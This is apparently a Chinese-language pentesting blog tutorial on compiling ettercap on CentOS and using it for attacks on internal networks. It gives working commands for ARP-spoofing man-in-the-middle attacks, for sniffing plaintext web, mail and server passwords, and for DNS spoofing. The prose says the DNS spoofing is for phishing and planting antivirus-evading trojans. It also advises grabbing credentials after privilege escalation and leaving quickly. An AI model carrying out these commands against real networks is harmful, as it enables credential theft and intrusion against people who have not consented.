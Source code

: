 # [Ettercap 基础使用](https://klionsec.github.io/2017/10/25/ettercap/)

## 0x01 关于ettercap

> 1. ettercap 确实已经非常老了,也确实是那个时代的经典,而且差不多三四年这个项目也都没再更新过了
> 2. 对于一些防护并不是特别好的内网,依然非常实用,千万不要觉得工具老就没有它的应用场地,那样你就真的错了,如果真是这样,就不会有这么多的二次深度开发了
> 3. 大家可能也发现了,像这类的工具我基本都是在模拟真实的生产机器环境上编译安装的
> 4. 具体原因大家想必都很清楚,像这类基于二层的arp嗅探是没法直接在远程做的,毕竟不是直接处在目标的vpn内网中
> 5. socks代理再牛逼,它也只是个基于端口的四层代理,并不是vpn,所以,是没法直接在本地嗅远程的arp的,至于GRE隧道,咱们抽空再另说
> 6. 话不多讲,直奔今天的主题,ettercap基础使用,注意,此次仅仅是基础使用



## 0x02 开启本地的路由转发

```shell
# echo 1 > /proc/sys/net/ipv4/ip_forward
# cat /proc/sys/net/ipv4/ip_forward
```



## 0x03 基础演示环境

```shell
CentOS release 6.9 (Final)  x86-64 ip: 192.168.3.4  接口名称: eth2  ettercap所在机器
win2008r2 			   ip: 192.168.3.23 
win7cn				   ip: 192.168.3.8
```





## 0x04 暂以centos 6.8 x86_64为例,编译安装 ettercap 0.8.2

```shell
# yum groupinstall "Development tools" -y
# yum install cmake ncurses ncurses-devel openssl openssl-devel gcc-c++ flex bison gtk2 gtk2-devel -y
# tar xf ettercap-0.8.2.tar.gz
# cd ettercap-0.8.2/bundled_deps/
# ls

# cd check/
# tar xf check-0.9.14.tar.gz
# cd check-0.9.14
# ./configure && make && make install
# echo $? && cd ../../

# cd curl/
# tar xf curl-7.41.0.tar.gz
# cd curl-7.41.0
# ./configure && make && make install
# echo $? && cd ../../

# cd libnet/
# tar xf libnet-1.1.6.tar.gz
# cd libnet-1.1.6
# ./configure && make && make install
# echo $? && cd ../../

# cd luajit/
# tar xf LuaJIT-2.0.3.tar.gz
# cd LuaJIT-2.0.3
# make && make install
# echo $? && cd ../../

# tar xf libpcap-1.5.3.tar.gz
# cd libpcap-1.5.3
# ./configure && make && make install
# echo $? && cd ../../

# cat INSTALL
# mkdir build
# cd build/
# cmake ../
# make && make install
# echo $? && cd
```

## 0x05 ettercap安装后的默认配置文件位置如下,修改配置文件,让其以root权限身份运行,一般嗅探都是在提权成功以后的动作,这样能嗅到的东西会更多一些

```shell
# cd /etc/ettercap/
# vi /etc/ettercap/etter.conf
 ec_uid = 0                
 ec_gid = 0
```



0x06 ettercap默认规则 [filter] 目录

```shell
# ll /usr/local/share/ettercap/
```



![img](../../../../_ImageAssets/ettercap-filter-1587994459905.png)

0x07 装完以后先简单测试下ettercap是否真正已经可用,尝试嗅下3.8到3.23之间的明文数据

```shell
# ettercap -Tqi eth2 -M arp:remote /192.168.3.8/ /192.168.3.23/
```



![img](../../../../_ImageAssets/ettercap-rest-1587994467738.png)

0x08 ettercap 选项功能简要说明

```shell
-M 进行中间人攻击,可自行指定用什么类型的中间人,如,arp,dhcp,icmp...
-o 不嗅探数据,单单只进行中间人欺骗
-T 建议使用文本模式,一般实战中基本是不会有图形界面给你的
-q 安静模式,减少输出
-D 把ettercap作为一个系统服务来运行,意思就是让它在后台跑,比较方便
-w 把监听的数据写到指定的pcap文件中 
-L 将所有流量写到指定的日志文件中
-l 被动记录
-i 指定要用于嗅探的网卡接口
-F 导入自定义数据包过滤规则文件
-P 导入插件,增强中间人攻击
-p 不启用网卡混杂模式,只嗅当前机器的各类明文数据
```



0x09 关于ettercap的其它更多详情,请自行参考工具自身帮助

```shell
# man ettercap
# ettercap -P list  查看ettercap内置的所有插件
```



![img](../../../../_ImageAssets/ettercap-local-plugins-1587994482679.png)

0x10 只嗅探本机指定端口上的明文数据,如,各类web管理登陆密码[80,8080],如果是当前机器是个邮件服务器,无疑是极好的,起码不用再自己苦逼的到处搜集密码了,直接守住这儿慢慢抓密码就好了,在某些内网中通过这种方式来搜集密码,还是非常可行的

```shell
# ettercap -i eth2 -T -q -p -l local //25,80,110,143,8080 
# etterlog local.eci
```



![img](../../../../_ImageAssets/ettercap-local-sniff-1587994489242.png)
![image-20200716172639161](../../../../_ImageAssets/image-20200716172639161.png)

0x011 只嗅探指定机器之间的明文通信数据

嗅探这个ip段范围和网关之间的通信数据,其实说白点就是想嗅探目标机器在一些公网站点上登陆的明文账号密码

```shell
# ettercap -T -q -i eth2  -L webadmin -M arp:remote /192.168.3.1/ /192.168.3.2-25/    
# etterlog webadmin.eci
```



![img](../../../../_ImageAssets/arp_sniffer_common-1587994492773.png)

嗅探3.220-251和3.3这台机器之间的所有明文通信数据,主要想快速拿到内网服务器的账号密码,所以,你实际挑内网机器的时候,最好有针对性,一旦拿到密码立马就跑路,这工具动静儿太大

```shell
# ettercap -Tq -i eth2  -L mail -M arp:remote /192.168.3.3/ /192.168.3.220-251/
# etterlog mail.eci
```



在目标内网中利用dns欺骗来针对性钓鱼挂马,马要免杀,页面也逼真,否则很容易被发现

```shell
# vi /etc/ettercap/etter.dns
  # microsoft sucks ;)找到这行
  # redirect it to www.linux.org
    demlution.com       A   192.168.3.23
    www.demlution.com   A   192.168.3.23
# ettercap -Tq -i eth2 -P dns_spoof  -M arp /192.168.3.1/ /192.168.3.3-100/
```



![img](../../../../_ImageAssets/ettercap-dns2_res-1587994499271.png)
![image-20200716172606412](../../../../_ImageAssets/image-20200716172606412.png)

0x12 当然,ettercap绝非远远就这么点儿功用,来日方长,关于定制规则脚本以及其它的各类高级应用,考虑篇幅,我们后续再慢慢说

0x13 提前先来了解几个 ettercap 的简单规则脚本语法

```shell
search(where,what) 从字符串where中查找what，若找到则返回true
regex(where,regex) 从字符串where中匹配正则表达式regex，若找到则返回true
replace(what,with) 把字符串what替换成字符串with
log(what,where)    把字符串what记录到where文件中
msg(message) 	   在屏幕上显示出字符串message
exit() 		   退出
```

https://klionsec.github.io/tags/ettercap